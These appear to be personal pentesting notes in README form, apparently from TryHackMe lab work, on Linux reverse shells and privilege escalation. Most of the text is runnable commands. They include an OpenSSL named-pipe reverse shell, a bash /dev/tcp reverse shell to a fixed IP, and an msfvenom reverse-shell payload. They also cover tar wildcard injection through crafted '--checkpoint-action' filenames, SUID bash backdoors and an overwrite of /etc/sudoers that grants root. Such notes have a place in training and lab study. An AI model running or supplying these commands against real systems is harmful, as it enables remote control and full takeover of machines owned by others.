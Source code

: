 ******************* Look at notes THM room Game Zone README.md for various techniques.

# OpenSSL Reverse Shell
[Generate OpenSSL Certificate](../../SSL/OpenSSL/README.md#Generate-SSL-Certificate)
[Start OpenSSL Listener](../../SSL/OpenSSL/README.md#Start-OpenSSL-Listener)
##### From Target, create named pipe and OpenSSL client to connect to Attack Machine.
```bash
# On Target
mkfifo /tmp/x; /bin/sh -i < /tmp/x 2>&1 | openssl s_client -quiet -connect <Attack IP ADdress>:443 > /tmp/x; rm /tmp/x
```

# ICMP Reverse Shell with icmpsh
##### Disable ICMP replies by the OS
```bash
sysctl -w net.ipv4.icmp_echo_ignore_all=1
```
## ICMP Reverse Shell References
[Github icmpsh](https://github.com/bdamele/icmpsh)

[Pentestlab Blog](https://pentestlab.blog/tag/icmpsh/)

[Security Online](https://securityonline.info/icmpsh-simple-reverse-icmp-shell/)

# CronJobs - File Permissions 
```bash
cat /etc/crontab
# IF CronJobs runs a <file>.sh script, edit <file>.sh to establish a reverse shell.
```

# CronJobs - Wildcard
```bash
cat /etc/crontab
# Find CronJobs using wildcards.
# Search GTFObins for CronJob command.

# Find out the time to see when the next job will run.
date

### NOTE - I had problems making the scripts executable and callng them.
### Using exec=sh <script>.sh worked, when the others did not.
### See notes from THM Skynet room.
### I was unable to establish a reverse shell.
### Scripts that I chmod +x did not execute.
### Calling he scripts with sh worked.
echo "" > "--checkpoint-action=exec=sh <script>.sh"

# Example using tar.
# Create reverse shell binary with msfvenom.
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<local IP> LPORT=<port num> -f elf -o shell.elf
# Copy shell.elf to server.
# Make shell.elf executable, on server.
chmod +x /home/user/shell.elf
# Start listener.
nc -nvlp <port num>
# Create these two files in /home/user:
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
# These filenames will be read as tar arguments, causing tar to execute shell.elf.

## ALTERNATIVES
# Use a bash shell.
echo "bash -i >& /dev/tcp/10.13.25.242/9999 0>&1" > shell.sh
chmod +x shell.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.sh
# Make /bin/bash a SUID.
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
chmod +x shell.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.sh
# Copy /bin/bash to a /tmp and make SUID.
printf '#!/bin/bash\ncp /bin/bash /tmp/newbinbash && chmod +s /tmp/newbinbash' > newbinbash.sh
chmod +x newbinbash.sh
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=newbinbash.sh
# Make the current user a sudoer.
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
chmod +x privesc.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=privesc.sh
```

# [Upgrade a linux reverse shell to a fully usable TTY shell](https://zweilosec.github.io/posts/upgrade-linux-shell/)
##### Note: The methods above will not work in every situation. For example, I have regularly run into a problem on my Kali machine where attempting to use stty raw -echo while using zsh as my shell will cause the entire terminal to become unusable. I have gotten around this issue by switching to bash before I start any netcat listener that I will be using to catch a shell.
```bash
bash
rlwrap nc -lvnp $port
which python python2 python3
/usr/bin/python3 -c "import pty; pty.spawn('/bin/bash')"; #spawn a python psuedo-shell
CTRL+Z # to background shell
stty raw -echo # Send control characters to the shell.
stty size # Get terminal window size 48 / 102
fg # foreground shell
export SHELL=bash
stty rows $x columns $y #Set remote shell to x number of rows & y columns
export TERM=xterm-256color #allows you to clear console, and have color output
```

# Cheatsheets
[HighOn.Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

[Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

# References
[Staged vs Stageless Handlers](https://buffered.io/posts/staged-vs-stageless-handlers/)

[Upgrade a linux reverse shell to a fully usable TTY shell](https://zweilosec.github.io/posts/upgrade-linux-shell/)